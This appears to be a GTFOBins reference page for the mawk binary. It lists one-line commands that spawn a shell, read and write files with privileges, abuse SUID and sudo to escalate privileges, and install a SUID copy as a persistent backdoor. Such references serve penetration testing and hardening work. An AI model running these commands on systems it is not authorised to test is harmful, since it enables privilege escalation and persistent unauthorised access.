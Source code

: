 # GTFOBin: mawk

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
mawk 'BEGIN {system("/bin/sh")}'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
mawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
mawk '//' "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which mawk) .

LFILE=file_to_read
./mawk '//' "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo mawk 'BEGIN {system("/bin/sh")}'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which mawk) .

./mawk 'BEGIN {system("/bin/sh")}'
```